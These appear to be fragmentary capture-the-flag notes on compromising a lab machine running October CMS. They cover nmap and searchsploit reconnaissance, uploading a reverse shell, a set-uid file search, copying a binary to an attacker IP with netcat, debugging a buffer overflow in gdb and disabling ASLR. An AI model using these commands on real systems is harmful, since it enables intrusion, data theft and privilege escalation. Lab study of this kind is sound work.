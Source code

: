 nmap -sV -sC -oA nmap &lt;host&gt;

searchsploit october

search vulnerabilities based on the version of the system

* is it outdated?
* what is the version that has vulnerabilities
* download 2 versions of the application \(cms\)

* find the files that have been updated

* compare their hashes

* try to access the README.md to see the changelogs

* remove the unnecessary files

exploit

* upload the reverse-shell script
* when accessed the shell

  * find / -perm -4000 2&gt;/dev/null \(search set-uid files\)
  * 

* get files from the remote server

  * nc -l -p 999 &gt; ovrflw \(local\)
  * nc -w 5 10.10.12.194  999 &lt; /usr/local/bin/ovrflw \(remote\)
  * check for md5

* python -m SimpleHTTPServer

* Run ubuntu with the same version of the target

  * wget 172.16.10.105:8000/ovrflw
  * mv ovrflw Desktop
  * chmod +x ovrflw
  * ``./ovrflw `python -c 'print "A"*200'` #this will trigger a segmentation fault because of buffer overflow``

* `cat ~/.gdbinit` \(this will check if you have `source ~/peda/peda.py`\)

* gdb ./ovrflw

* b main \(breakpoint on main\)

* r \(run\)

* ```r``python -c 'print "A"\*200'\`\`\` \(buffer overflow\)

* c \(continue\)

* you will see an error after `c`

* `python -c 'print "\x41"' (will print A)`

* checksec

* nc -lvnp 888 \(port set on the reverse shell script\)

* stty raw -echo

* nc -lvnp 888
* cd /usr/local/bin
* ldd ovrflw \|grep libc

Check if the ASLR is enabled in the HOST \(VM\)

* ldd ovrflw \|grep libc

Disable ASLR

* `echo 0 > /proc/sys/kernel/randomize(underscore)va_space`



